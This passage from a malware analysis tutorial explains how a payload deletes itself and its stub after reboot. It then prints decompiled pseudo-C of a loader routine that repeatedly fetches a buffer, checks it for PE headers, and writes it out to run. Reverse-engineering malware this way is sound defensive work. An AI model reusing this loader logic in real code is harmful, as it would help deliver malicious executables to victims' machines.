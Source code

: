   The first `DeleteFileAfterReboot` uses NULL; thus the program that loads the payload (i.e. the stub or the first program we analyzed above) will be deleted after a reboot; while the second call `DeleteFileAfterReboot` is for the current module, ie. the payload itself.

Let's now analyze `sub_401570` which is where we'll find out what type of malware we're analyzing:
#### Code 21.5
```cpp
void __noreturn sub_401570()
{
  LPVOID lpMem; // [esp+4h] [ebp-10h] BYREF
  DWORD nNumberOfBytesToWrite; // [esp+8h] [ebp-Ch] BYREF
  LPCVOID lpBuffer; // [esp+Ch] [ebp-8h] BYREF
  HANDLE hObject; // [esp+10h] [ebp-4h]

  lpBuffer = 0;
  nNumberOfBytesToWrite = 0;
  lpMem = 0;
  CreateMutex(0);
  hObject = CreateThread(0, 0, StartAddress, 0, 0, 0);
  CreateNamedEventAndSetLowIntegrity(String);
  while ( 1 )
  {
    while ( sub_4021C0((int)&lpBuffer, &nNumberOfBytesToWrite, 0) < 0 || !nNumberOfBytesToWrite )
    {
      lpBuffer = 0;
      Sleep(0x3A98u);
    }
    CreateNamedEventAndSetLowIntegrity(dword_401168);
    if ( !sub_4021A0(lpBuffer, nNumberOfBytesToWrite)
      && *(_WORD *)lpBuffer == 23117
      && *(_WORD *)((char *)lpBuffer + *((_DWORD *)lpBuffer + 15)) == 17744 )
    {
      break;
    }
    sub_402890((LPVOID)lpBuffer);
    lpBuffer = 0;
  }
  CreateNamedEventAndSetLowIntegrity(dword_401164);
  if ( !sub_401DB0((int)&lpMem, lpBuffer, nNumberOfBytesToWrite) )
  {
    CreateNamedEventAndSetLowIntegrity(dword_401160);
    sub_401A70((LPCSTR)lpMem, 0, 0);
    CreateNamedEventAndSetLowIntegrity(dword_40115C);
  }
  if ( lpMem )
    sub_401D90(lpMem);
  if ( hObject )
    CloseHandle(hObject);
  sub_402890((LPVOID)lpBuffer);
  ExitThread(0);
}
```
I already renamed some functions, specifically
- `CreateMutex` should be self-explainatory,
- `CreateNamedEventAndSetLowIntegrity` creates a named event (an event is a synchronization mechanism that can be waited on or signaled, similar to multithreading synchronization mechanism) and sets it some security flags which we'll not analyze for now.
